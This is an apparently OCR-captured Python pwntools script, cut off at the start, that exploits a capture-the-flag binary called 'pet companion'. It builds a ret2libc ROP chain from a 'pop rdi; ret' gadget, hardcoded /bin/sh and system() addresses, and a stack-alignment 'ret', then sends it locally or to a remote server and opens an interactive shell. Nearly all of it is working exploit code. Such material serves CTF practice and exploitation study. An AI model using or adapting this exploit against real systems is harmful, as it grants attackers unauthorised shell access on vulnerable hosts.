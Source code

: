 ```python

    # /bin/sh string address (gdb -> info proc map -> find x,y,"/bin/sh")
    bin_sh = 0x7ffff79b3d88
    print('/bin/sh address:', hex(bin_sh))

    # System address (gdb -> p system)
    system_addr = 0x7ffff784f420
    print("System address:", hex(system_addr))

    # Exit address
    exit_addr = 0x7ffff7843110

    # Searching for "pop rdi; ret" inside binary
    pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]
    print("pop rdi; ret; addr found:",hex(pop_rdi_ret))

    # Searching for "ret" inside binary
    ret = rop.find_gadget(['ret'])[0]
    print("ret; addr found:", hex(ret))

    # Building our paylaod
    payload += p64(ret)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(system_addr)
    #payload += p64(exit_addr)


    # Send the payload
    proc.clean()
    proc.sendline(payload)
    with open ('input.txt', 'wb') as out:
        out.write(payload)

    print(b"trying payload", payload)
    res = proc.recvall(timeout=10)
    
    proc.interactive()

    print(bytes.decode(res))

def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_pet_compagnion(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_pet_compagnion(proc)

def main():
    run_bin_local(LOCAL_FILE_PATH)
    #run_remote()

if __name__ == '__main__':
    main()

```
